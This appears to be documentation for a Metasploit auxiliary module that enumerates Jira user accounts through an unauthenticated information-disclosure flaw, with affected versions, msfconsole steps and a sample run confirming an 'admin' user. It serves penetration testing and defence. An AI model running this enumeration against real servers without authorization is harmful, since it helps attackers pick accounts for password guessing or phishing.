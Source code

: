 ## Vulnerable Application

  [Jira](https://www.atlassian.com/software/jira) Jira is team management software for agile teams.

  This module has been tested successfully on:

   * Jira version 8.4.1 on Ubuntu Linux.
   * Jira version 8.4.1 on Kali Linux.
   * Jira version 8.5.6 on Ubuntu Linux.
   * Jira version 8.10.1 on Ubuntu Linux.
   * Jira version 8.11.0 on Ubuntu Linux

  Installers:

  * [Jira Installers](https://www.atlassian.com/software/jira/core/updateatlassian-jira-software-8.4.1.tar.gz)
  * [Jira Installers Archive] (https://www.atlassian.com/software/jira/download-archives)

### Description

  The module exploits an information disclosure vulnerability to allow an unauthenticated user to enumerate /ViewUserHover.jspa endpoint.
  This only affects Jira versions < 7.13.16, 8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.11.1
  Discovered by Mikhail Klyuchnikov @__mn1__
  https://twitter.com/ptswarm/status/1318914772918767619

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/jira_user_enum`
  3. Do: `set rhosts [IP]`
  4. Do: `set SSL true`
  5. Do: `set RPORT 443`
  6. Do: `set USERNAME <username to test>
  7. Do: `run`
  8. You should find out if the user exists or not


## Options

- BRUTEFORCE_SPEED - How fast to bruteforce, from 0 to 5
- RHOSTS - The Target host(s)
- RPORT - Remote port hosting the Jira Application
- TAREGETURI - Path to Jira install on the webserver
- USERNAME - single username to attempt to enumerate
- USER_FILE - File of usernames to attempt to enumerate


## Scenarios

```
  msf > use auxiliary/scanner/http/jira_enum_users 
  msf auxiliary(scanner/http/jira_enum_users) > set rhosts 192.168.0.101
  rhosts => 192.168.0.101
  msf auxiliary(scanner/http/jira_enum_users) > set USERNAME admin
  msf auxiliary(scanner/http/jira_enum_users) > run

  [*] Begin enumerating users at 192.168.0.101/secure/ViewUserHover.jspa?username=
  [*] checking user admin
  [+] 'User exists: admin'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/http/jira_enum_users) > creds
  Credentials
  ===========

  host           origin         service         public   private  realm  private_type  JtR Format
  ----           ------         -------         ------   -------  -----  ------------  ----------
  192.168.0.101  192.168.0.101  443/tcp (jira)  admin                                

```
